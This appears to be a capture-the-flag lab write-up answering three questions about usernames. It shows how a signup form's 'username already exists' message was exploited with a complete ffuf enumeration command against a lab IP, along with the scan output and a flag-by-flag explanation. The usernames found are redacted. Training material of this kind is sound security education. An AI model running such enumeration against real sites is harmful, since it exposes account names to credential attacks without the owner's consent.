


## Exercises

### Question 1 — What is the username starting with si*** ?

Before building the `ffuf` command, I checked the signup form's own request so I knew the exact parameter names to fuzz. I opened Firefox Developer Tools on the signup page and submitted a test value in each field.





The request panel confirmed the four field names the form sends: `username`, `email`, `password` and `cpassword`. 

With the field names confirmed, I ran the enumeration scan against the signup endpoint.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.112.172.138/customers/signup' -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "username=FUZZ&email=x&password=x&cpassword=x" -ic -c -mr "username already exists"

        /'___\  /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.3.0
________________________________________________

 :: Method           : POST
 :: URL              : http://10.112.172.138/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 88ms]
—REDACTED—                  [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 101ms]
—REDACTED—                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 81ms]
—REDACTED—                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 81ms]
:: Progress: [10713/10713] :: Job [1/1] :: 470 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

**Breakdown:**

- `-u 'http://10.112.172.138/customers/signup'` sets the target URL
- `-w /usr/share/wordlists/seclists/Usernames/Names/names.txt` supplies the wordlist of candidate usernames
- `-X POST` sets the HTTP method, as the signup form requires POST
- `-H 'Content-Type: application/x-www-form-urlencoded'` sets the Content-Type header, so the server parses the body as form data
- `-d "username=FUZZ&email=x&password=x&cpassword=x"` is the request body, with the confirmed field names. `FUZZ` is replaced with each wordlist entry in turn, and the other three fields are filled with the placeholder value `x` so the request is accepted as well-formed
- `-ic` ignores comment lines in the wordlist
- `-c` colours the terminal output
- `-mr "username already exists"` restricts the output to responses whose body contains that string

The scan returned four matches: `admin`, `—REDACTED—`, `—REDACTED—` and `—REDACTED—`.

**Answer:** `—REDACTED—`

### Question 2 — What is the username starting with st*** ?

The same scan result covered this question. Of the four matches, the one starting `st***` was `—REDACTED—`.

**Answer:** `—REDACTED—`

### Question 3 — What is the username starting with ro**** ?

Of the four matches from the same scan, the one starting `ro****` was `—REDACTED—`.

**Answer:** `—REDACTED—`